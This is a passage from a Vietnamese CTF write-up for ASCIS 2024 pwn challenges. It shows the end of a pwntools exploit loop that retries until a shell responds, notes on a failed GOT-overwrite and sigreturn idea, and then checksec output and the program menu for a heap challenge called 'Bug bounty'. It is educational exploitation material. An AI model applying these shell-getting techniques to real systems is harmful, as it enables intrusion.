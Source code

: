 ```python
    #input("payload5")
    time.sleep(0.1)
    p.send(b'\x00')
    try:
        p.sendline(b'echo hehehihi')
        p.recvuntil(b'hehehihi')
        break
    except:
        p.close



p.interactive()
```

- cách 2 mình định overwrite got thành gadget syscall tuy nhiên ta không có đủ byte để đưa cái ề bytes của sigreturnFrame vô ...

## Bug bounty

checksec: full giáp

```cs
ploi@PhuocLoiiiii:~/pwn/ascis-2024/ascis-pwn/bugbounty$ checksec  chall_patched
[*] '/home/ploi/pwn/ascis-2024/ascis-pwn/bugbounty/chall_patched'
    Arch:       amd64-64-little
    RELRO:      Full RELRO
    Stack:      Canary found
    NX:         NX enabled
    PIE:        PIE enabled
    RUNPATH:    b'.'
    SHSTK:      Enabled
    IBT:        Enabled
```

- chạy thử chương trình thì đây có lẽ là 1 bài heap , ta sẽ mở IDA lên để phân tích nó 

```cs
ploi@PhuocLoiiiii:~/pwn/ascis-2024/ascis-pwn/bugbounty$ ./chall_patched

======= Welcome to "Note Application" =======
1. Add (add a note)
2. Delete (delete a note)
3. Write message (write your message into a note)
4. Print message (get your message from a note)
5. Save (save note into file)
6. Quit

[*] Your choice:
```


- main

